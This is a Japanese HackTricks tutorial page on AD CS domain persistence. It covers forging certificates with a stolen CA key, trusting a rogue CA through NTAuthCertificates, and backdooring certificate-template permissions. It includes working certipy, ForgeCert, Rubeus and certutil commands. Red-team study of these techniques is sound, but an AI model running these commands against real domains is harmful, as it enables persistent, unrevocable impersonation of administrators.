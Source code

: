 # AD CS ドメイン永続性

<details>

<summary><strong>htARTE（HackTricks AWS Red Team Expert）</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>でゼロからヒーローまでAWSハッキングを学ぶ</strong></a><strong>！</strong></summary>

HackTricks をサポートする他の方法:

* **HackTricks で企業を宣伝したい** または **HackTricks をPDFでダウンロードしたい** 場合は [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop) をチェックしてください！
* [**公式PEASS＆HackTricksスワッグ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)、当社の独占的な [**NFTs**](https://opensea.io/collection/the-peass-family) コレクションを発見する
* **💬 [Discordグループ](https://discord.gg/hRep4RUj7f)** または [telegramグループ](https://t.me/peass) に **参加** するか、**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live) を **フォロー** してください。
* **ハッキングトリックを共有するには、** [**HackTricks**](https://github.com/carlospolop/hacktricks) と [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) の github リポジトリに PR を提出してください。

</details>

**これは、[https://www.specterops.io/assets/resources/Certified\_Pre-Owned.pdf](https://www.specterops.io/assets/resources/Certified\_Pre-Owned.pdf)** で共有されているドメイン永続性技術の要約です。詳細については、そちらをご確認ください。

## 盗まれたCA証明書を使用した証明書の偽造 - DPERSIST1

証明書がCA証明書であるかどうかをどのように判断できますか？

証明書がCA証明書であることが確認される条件は次のとおりです：

- 証明書はCAサーバーに保存されており、そのプライベートキーはマシンのDPAPIによって保護されているか、オペレーティングシステムがサポートしている場合はTPM/HSMなどのハードウェアによって保護されています。
- 証明書の発行者とサブジェクトのフィールドがCAの識別名と一致しています。
- "CA Version" 拡張子がCA証明書にのみ存在します。
- 証明書には拡張キー使用法（EKU）フィールドがありません。

この証明書のプライベートキーを抽出するには、CAサーバー上の `certsrv.msc` ツールが組み込みGUIを介してサポートされています。ただし、この証明書はシステム内に保存されている他の証明書と変わりません。そのため、[THEFT2 技術](certificate-theft.md#user-certificate-theft-via-dpapi-theft2) のような手法を抽出に適用することができます。

次のコマンドを使用して、Certipyを使用して証明書とプライベートキーを取得することもできます：
```bash
certipy ca 'corp.local/administrator@ca.corp.local' -hashes :123123.. -backup
```
CA証明書とその秘密鍵を`.pfx`形式で取得した後、[ForgeCert](https://github.com/GhostPack/ForgeCert)のようなツールを使用して有効な証明書を生成できます：
```bash
# Generating a new certificate with ForgeCert
ForgeCert.exe --CaCertPath ca.pfx --CaCertPassword Password123! --Subject "CN=User" --SubjectAltName localadmin@theshire.local --NewCertPath localadmin.pfx --NewCertPassword Password123!

# Generating a new certificate with certipy
certipy forge -ca-pfx CORP-DC-CA.pfx -upn administrator@corp.local -subject 'CN=Administrator,CN=Users,DC=CORP,DC=LOCAL'

# Authenticating using the new certificate with Rubeus
Rubeus.exe asktgt /user:localdomain /certificate:C:\ForgeCert\localadmin.pfx /password:Password123!

# Authenticating using the new certificate with certipy
certipy auth -pfx administrator_forged.pfx -dc-ip 172.16.126.128
```
{% hint style="warning" %}
証明書偽造の対象ユーザーは、プロセスが成功するためにアクティブであり、Active Directoryで認証できる必要があります。 krbtgtなどの特別なアカウントのための証明書を偽造することは効果がありません。
{% endhint %}

この偽造された証明書は、指定された終了日まで**有効**であり、ルートCA証明書が有効である限り（通常、5年から**10年以上**）、**マシン**にも有効です。これに**S4U2Self**を組み合わせることで、攻撃者はCA証明書が有効である限り、**任意のドメインマシンで持続性を維持**できます。\
さらに、この方法で生成された**証明書は**、CAがそれらを認識していないため、**取り消すことはできません**。

## ローグCA証明書を信頼する - DPERSIST2

`NTAuthCertificates`オブジェクトは、その`cacertificate`属性内に1つ以上の**CA証明書**を含むように定義されており、Active Directory（AD）が利用しています。ドメインコントローラーによる検証プロセスは、認証中の証明書の発行者フィールドに指定された**CA**に一致するエントリを`NTAuthCertificates`オブジェクトで確認します。一致が見つかった場合、認証が進行します。

攻撃者は、自己署名のCA証明書を`NTAuthCertificates`オブジェクトに追加できますが、このADオブジェクトを制御している必要があります。通常、**Enterprise Admin**グループのメンバーと、**フォレストルートのドメイン**の**Domain Admins**または**Administrators**にのみ、このオブジェクトを変更する権限が与えられます。彼らは`certutil.exe`を使用して`certutil.exe -dspublish -f C:\Temp\CERT.crt NTAuthCA126`というコマンドを使用するか、[**PKI Health Tool**](https://docs.microsoft.com/en-us/troubleshoot/windows-server/windows-security/import-third-party-ca-to-enterprise-ntauth-store#method-1---import-a-certificate-by-using-the-pki-health-tool)を使用して`NTAuthCertificates`オブジェクトを編集できます。

この機能は、以前にForgeCertを使用して証明書を動的に生成する方法と組み合わせて使用される場合に特に関連があります。

## 悪意のある構成ミス - DPERSIST3

**AD CS**コンポーネントの**セキュリティ記述子の変更**を通じて**持続性**を確保する機会は豊富です。"[Domain Escalation](domain-escalation.md)"セクションで説明されている変更は、昇格アクセス権を持つ攻撃者によって悪用される可能性があります。これには、以下のような重要なコンポーネントに「制御権限」（例：WriteOwner/WriteDACLなど）を追加することが含まれます：

- **CAサーバーのADコンピューター**オブジェクト
- **CAサーバーのRPC/DCOMサーバー**
- **`CN=Public Key Services,CN=Services,CN=Configuration,DC=<DOMAIN>,DC=<COM>`**内の**子孫ADオブジェクトまたはコンテナ**（たとえば、証明書テンプレートコンテナ、認証局コンテナ、NTAuthCertificatesオブジェクトなど）
- デフォルトでまたは組織によって（たとえば、組み込みのCert Publishersグループとそのメンバーなど）**ADグループにAD CSの制御権限が委任**されている

悪用の例として、ドメイン内で昇格権限を持つ攻撃者が、デフォルトの**`User`**証明書テンプレートに**`WriteOwner`**権限を追加し、その権限の主体として自分自身を設定することが挙げられます。これを悪用するために、攻撃者はまず**`User`**テンプレートの所有権を自分自身に変更します。その後、**`mspki-certificate-name-flag`**をテンプレートで**`ENROLLEE_SUPPLIES_SUBJECT`**を有効にするために**1**に設定し、ユーザーがリクエストでサブジェクト代替名を提供できるようにします。その後、攻撃者は**テンプレート**を使用して**登録**し、代替名として**ドメイン管理者**名を選択し、取得した証明書をDAとして認証に使用できます。
